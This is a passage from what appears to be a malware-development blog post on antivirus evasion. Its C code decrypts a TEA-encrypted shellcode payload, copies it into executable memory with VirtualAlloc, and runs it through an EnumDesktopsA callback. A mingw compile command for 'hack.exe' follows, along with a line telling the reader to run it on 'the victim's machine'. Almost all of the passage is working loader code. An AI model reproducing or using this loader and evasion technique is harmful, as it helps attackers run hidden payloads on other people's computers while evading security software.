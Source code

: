 ```cpp
    for (int i = 0; i < sizeof(padded); i++) {
      printf("\\x%02x", padded[i]);
    }
    printf("\n\n");

    // tea_decrypt(my_payload, key);
    for (int i = 0; i < pad_len; i += 8) {
      tea_decrypt(&padded[i], key);
    }

    printf("decrypted:\n");
    for (int i = 0; i < sizeof(padded); i++) {
      printf("\\x%02x", padded[i]);
    }
    printf("\n\n");

    LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(mem, padded, pad_len);
    EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

    return 0;
}
```

### demo 1

Let's go to see this trick in action. Compile our "malware":      

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/89/2023-02-21_20-07.png){:class="img-responsive"}      

And run it at the victim's machine (`Windows 10 x64`):      
